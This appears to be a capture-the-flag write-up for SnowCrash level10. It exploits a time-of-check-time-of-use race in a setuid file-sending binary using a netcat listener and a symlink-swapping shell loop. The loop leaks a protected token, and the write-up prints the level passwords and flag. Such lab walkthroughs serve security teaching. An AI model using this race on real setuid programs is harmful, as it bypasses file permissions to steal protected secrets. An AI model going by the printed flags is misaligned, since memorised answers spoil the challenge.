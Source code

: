 # level10

## Time-of-Check-Time-of-Use exploit

The hints this time around are a binary file and a regular file that we don't have read permissions for.
```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Executing the given binary prints out a help message, and attempting to read from a few files spits back some error messages.
```bash
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to /home/user/level10/token
level10@SnowCrash:~$ ./level10 .bash_logout 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

The tool for this job is `netcat`, which allows us to listen for TCP connections over arbitrary ports.
```bash
level10@SnowCrash:~$ echo hello>/tmp/h
level10@SnowCrash:~$ nc -l 6969&
[1] 18616
level10@SnowCrash:~$ ./level10 /tmp/h 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. hello
wrote file!
[1]+  Done                    nc -l 6969
```
Now we need to figure out how to bypass the file permissions on `token`.
Disassembling main, there are a few parts that stand out.
```bash
level10@SnowCrash:~$ gdb -batch -ex 'file level10' -ex 'disassemble main'
Dump of assembler code for function main:
   0x080486d4 <+0>:     push   %ebp
   0x080486d5 <+1>:     mov    %esp,%ebp
...
   0x08048749 <+117>:   call   0x80485e0 <access@plt>
...
   0x0804889b <+455>:   call   0x80485a0 <open@plt>
...
End of assembler dump.
```
Most notable is the significant gap between the `access` call to check permissions and the `open` call to actually read the file.

This is a rather simple example of a time-of-check-time-of-use race condition, in which we exploit the overhead of resolving symbolic links in the kernel.

```bash
level10@SnowCrash:~$ cat <<EOF >/tmp/beans
> pkill nc
> rm -f /tmp/flag
> touch /tmp/l /tmp/flag
> while true; do
>     nc -l 6969 > /tmp/flag &
>     ln -sf /tmp/l /tmp/a &
>     ./level10 /tmp/a 127.0.0.1 &
>     ln -sf ~/token /tmp/a &
>     if egrep -q '[a-z0-9]{25}' /tmp/flag; then
>         exit 0
>     fi
> done
> EOF
level10@SnowCrash:~$ sh /tmp/beans
pkill: 12 - Operation not permitted
You don't have access to /tmp/a
You don't have access to /tmp/a
Connecting to 127.0.0.1:6969 .. nc: Connected!
Sending file .. wrote file!
woupa2yuojeeaaed06riuj63c
Connecting to 127.0.0.1:6969 .. Address already in use
nc: Address already in use
Connected!
Sending file .. wrote file!
level10@SnowCrash:~$ cat /tmp/flag
.*( )*.
woupa2yuojeeaaed06riuj63c
```

Time to capture our flag
```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~ $ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~ $ su level11
Password: feulo4b72j7edeahuete3no7c
level11@SnowCrash:~ $ 
```
